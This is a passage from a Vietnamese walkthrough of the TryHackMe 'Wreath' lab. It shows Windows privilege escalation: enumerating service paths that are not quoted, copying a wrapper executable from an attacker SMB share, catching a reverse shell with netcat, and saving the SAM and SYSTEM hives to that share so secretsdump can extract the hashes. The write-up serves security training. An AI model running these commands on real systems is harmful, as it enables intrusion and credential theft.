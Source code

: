 wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"

sc qc SystemExplorerHelpService

![](../media/Wreath%20-%20tryhackme_41.png)

powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"

![](../media/Wreath%20-%20tryhackme_42.png)

Tạo smb server trên máy kali

sudo smbserver.py share /home/kali/Desktop/ -smb2support -username user -password s3cureP@ssword

![](../media/Wreath%20-%20tryhackme_43.png)

net use \\10.50.85.26\share /USER:user s3cureP@ssword

copy \\10.50.85.26\share\Wrapper.exe %TEMP%\wrapper-dai.exe

net use \\10.50.85.26\share /del

![](../media/Wreath%20-%20tryhackme_44.png)

Dùng nc trên kali để lắng nghe qua port 443, sau đó chạy file vừa copy được

![](../media/Wreath%20-%20tryhackme_45.png)

Kết quả.

![](../media/Wreath%20-%20tryhackme_46.png)

Leo thang

sc start SystemExplorerHelpService

net use \\10.50.85.26\share /user:10.50.85.26\user s3cureP@ssword

![](../media/Wreath%20-%20tryhackme_47.png)

reg.exe save HKLM\SAM \\10.50.85.26\share\sam.bak

reg.exe save HKLM\SYSTEM \\10.50.85.26\share\system.bak

![](../media/Wreath%20-%20tryhackme_48.png)

secretsdump.py -sam  sam.bak -system system.bak local

![](../media/Wreath%20-%20tryhackme_49.png)

